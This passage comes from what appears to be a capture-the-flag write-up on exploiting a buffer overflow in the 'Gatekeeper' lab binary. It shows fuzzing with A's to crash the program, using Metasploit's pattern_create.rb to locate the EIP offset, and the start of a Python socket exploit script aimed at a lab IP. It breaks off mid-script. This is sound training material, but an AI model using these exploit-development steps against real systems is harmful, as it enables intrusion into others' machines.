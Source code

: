 ```
after connecting i enter some random text and on the output it shows Hello textweenter!!!

![nc-connect](https://raw.githubusercontent.com/SUNNYSAINI01001/Gatekeeper/main/Screenshot/nc-connect.png)

Then using python i create 300 A's and try to enter this after entering this we found program got crash and register fill with bunch of A's i.e, 41

![nc-crash](https://raw.githubusercontent.com/SUNNYSAINI01001/Gatekeeper/main/Screenshot/nc-crash.png)

POC of program crash=>

![fuzzing-crash-1](https://raw.githubusercontent.com/SUNNYSAINI01001/Gatekeeper/main/Screenshot/fuzzing-crash-1.png)

POC of register fill with A's (41)

![fuzzing-register41-2](https://raw.githubusercontent.com/SUNNYSAINI01001/Gatekeeper/main/Screenshot/fuzzing-register41-2.png)

Now the next step is to identify which part of the buffer that is being sent landing in the EIP register, in order to control the execution flow. For this we are going to use pattern_create.rb script.

command=>

```/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 300```

and it gives us 300 byte string.

## Creating exploit

So now for using the 300 byte string and future work we need to create a exploit.

code=>

```
import socket

ip = "192.168.226.129"
port = 31337

offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9"
